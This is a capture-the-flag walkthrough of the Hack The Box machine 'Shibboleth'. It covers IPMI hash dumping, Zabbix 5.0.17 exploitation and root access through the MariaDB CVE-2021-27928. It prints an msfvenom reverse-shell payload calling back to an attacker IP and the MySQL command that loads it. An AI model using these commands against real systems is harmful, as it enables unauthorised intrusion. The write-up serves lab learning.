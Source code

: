 # HTB - Shibboleth

#### Ip: 10.10.10.169
#### Name: Shibboleth
#### Difficulty: Medium

----------------------------------------------------------------------

![shibboleth.png](../assets/shibboleth_assets/shibboleth.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.124 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:45 CDT
Nmap scan report for 10.10.11.124
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds
```

Lets add shibboleth.htb to our `/etc/hosts` file.

Heading to the website we see a site mostly containing anchor tags and lorem ipsum:

site.png

Though interestingly at the very bottom of the page we see it is running Zabbix:

```text
 Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation 
```

Double checking there were no UDP ports open I found that port 623 was open:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --min-rate 5000 10.10.11.124
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:46 CDT
Nmap scan report for 10.10.11.124
Host is up (0.069s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
623/udp   open   asf-rmcp
21742/udp closed unknown
24511/udp closed unknown
39888/udp closed unknown
40441/udp closed unknown
41446/udp closed unknown
55587/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Port 623 is usually IPMI which has known vulnerabilities:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --script ipmi-version -p 623 shibboleth.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:51 CDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.068s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

Cool, it is running version 2 which can let attackers dump passsword hashes. lets try to exploit this in Metasploit:

msf.png

We can now try to crack this hash using JohnTheRipper:

john.png

Nice! We were able to crack the administrator's hash. Unfortunately we still have nowhere to use the credentials, so lets keep enumerating. 

Trying some subdomain fuzzing using wfuzz, we get a few matches:

wfuzz.png

Lets add these 3 to `/etc/hosts` as well:

```text
monitor.shibboleth.htb
monitoring.shibboleth.htb
zabbix.shibboleth.htb
```

I'm especially interested in zabbix.shibboleth.htb because we suspect we're dealing with zabbix from earlier enumeration.

Heading to the site we find a login page:

zabbix.png

Cool, we were able to login with the discovered credentials:

login.png

### Exploitation

At the bottom of the page we see which version number we're dealing with- `Zabbix 5.0.17.`

Searching for exploits I find: https://www.exploit-db.com/exploits/50816

Setting up a NetCat listener and firing the exploit we get a shell back as user zabbix:

shell.png


This exploit is especially cool bevause it links the page where the shell was launched from:

exploit.png

Which is good to know if you ever want to exploit this manually without using a public exploit.

Trying to grab the user.txt flag we get permission denied:

```text
zabbix@shibboleth:/home/ipmi-svc$ cat user.txt 
cat: user.txt: Permission denied
```

There appears to be only one user here and we can `su` using the same password discovered before:

```text
zabbix@shibboleth:/home$ ls
ipmi-svc
zabbix@shibboleth:/home$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/home$ whoami
ipmi-svc
```

user_flag.png

### Privilege Escalation

Browsing around the target we find an interesting file `/etc/zabbix/zabbix_server.conf`

Which contains database credentials:

creds.png

Using these credentials to login to MySQL we see it is running version 10.3.25

```text
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1170
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

This version has a command execution vulnerability. https://github.com/Al1ex/CVE-2021-27928

To exploit this first we'll need to craft a reverse shell executable using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=1234 -f elf-so -o shell.so

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: shell.so
```

Next we can use Wget and a Python HTTP server to fetch it:

transfer.png

Then we can execute it with:

```text
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
```
And we instantly get a shell back as root, and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------
